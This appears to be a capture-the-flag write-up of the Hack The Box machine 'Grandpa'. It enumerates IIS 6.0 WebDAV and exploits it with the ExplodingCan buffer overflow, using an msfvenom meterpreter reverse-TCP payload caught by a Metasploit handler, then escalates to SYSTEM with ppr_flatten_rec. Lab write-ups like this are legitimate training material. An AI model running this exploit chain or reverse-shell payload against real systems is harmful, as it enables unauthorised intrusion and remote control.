 ```yaml
---
layout: post
title: "HTB-Grandpa"
categories: HTB-Walkthrough
---
```


![grandpa1](/assets/img/grandpa/grandpa1.png)


Grandpa is another OSCP-like box from the HTB 'retired' archive.

It's the Buffer Overflow one!

nmap first as always.

<h3>Nmap</h3>

```
nmap -sV -Pn -p- 10.10.10.14 |tee -a gp.txt
```

The results are limited.

```

Nmap scan report for 10.10.10.14
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Scan again, with default nse scripts `-sC`

`nmap -sVC 10.10.10.14`

```

Nmap scan report for 10.10.10.14
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 11 Mar 2020 09:56:45 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h4>IIS 6.0 running WebDAV</h4>


Scan again, this time checking for vulnerabilities with the `vuln` scripts

`nmap -sV --script=vuln 10.10.10.14`

```
Segmentation fault
```

We can crash the server!!!
It could be vulnerable to a `Buffer Overflow`.
 
Before we persue this, lets check out the directories.


<hr width="250" size="6">



<h3>Gobuster</h3>


```
gobuster dir -u http://10.10.10.14 -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

That was a fast scan.

```

/Images (Status: 301)
/_private (Status: 403)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_pvt (Status: 403)
/_vti_txt (Status: 403)
/_vti_bin (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
/aspnet_client (Status: 403)
/images (Status: 301)

```


`http://10.10.10.14/_vti_bin/shtml.dll`

```
Cannot run the FrontPage Server Extensions on this page: ""
```


`/_vti_bin/_vti_adm/admin.dll`

![admindll](/assets/img/grandpa/gp-admindll.png)



`/_vti_bin/_vti_aut/author.dll`

![authordll](/assets/img/grandpa/gp-authordll.png)


`http://10.10.10.14/images/`

![denied](/assets/img/grandpa/gp-denied.png)


<hr width="250" size="6">


<h3>Searchsploit</h3>


`searchsploit iis 6` returns a long list.


`searchsploit iis 6.0 |grep WebDAV |grep -v '/dos/'` is better.

![searchsploit](/assets/img/grandpa/gp-searchsploit.png)


<hr width="250" size="6">

We can read the exploit with

`searchsploit -x 41738`

Unfamiliar with this exploit, and not wanting to simply swap out the shellcode and fire it off,
I used google to do a bit more research.

[This review](https://www.secarma.com/labs/explodingcan-a-vulnerability-review.html) looks at the vulnerability, and gives
context for the exploit.

It is well worth a read!


<hr width="250" size="6">


Searching again on Google for more info, using the exploit's name `ExplodingCan`, I found [another script](https://github.com/danigargu/explodingcan).

So we now have two versions of essentially the same exploit. We can look at them both!



`searchsploit -m 41738` will copy the first exploit to the pwd (present working directory) and have a closer look.


```

 searchsploit -m 41738
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: troff or preprocessor input, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/HTB/vip/grandpa/41738.py

```

<hr width="250" size="6">



The Second exploit looks more simple to impliment than the first, I copy it from github as
 explodingcan.py, and generate a `shellcode` file with msfvenom.


<hr width="250" size="6">




<h4>MsfVenom, Meterpreter + Multi/Handler</h4>

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.10 LPORT=443 | tee shellcode
```


Fire up metasploit

```
service postgresql start
msfconsole
```

Because we used a staged meterpreter payload, we'll need to use the 
exploit/multi/handler.


```

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:443 

```


<hr width="250" size="6">


With everything ready, we execute the exploit with the following command:

`python explodingcan.py http://10.10.10.14 shellcode`


![excan-exploit](/assets/img/grandpa/gp-excan-exploit.png)

![meterpreter](/assets/img/grandpa/gp-meterpreter1.png)


<hr width="250" size="6">


<h3>Privilege Escalation</h3>

So we've got a meterpreter shell. The second [exploit](https://github.com/danigargu/explodingcan/blob/master/explodingcan.py)
 was straight-forward to impliment. 

We need to background the session and look for a path to privilege-escalation.

`use post/multi/recon/local_exploit_suggester`

![post1](/assets/img/grandpa/gp-post1.png)


Select `exploit/windows/local/ppr_flatten_rec`
use `show options` to set the variables.

Get SYSTEM shell.

![system](/assets/img/grandpa/gp-system.png)


Now it's a simple task to get the flags:

```
meterpreter > cat user.txt
bdxxxxxxxxxxxxxxxxxxxxxxxxxxxx69

meterpreter > cat root.txt
93xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b

```


:)


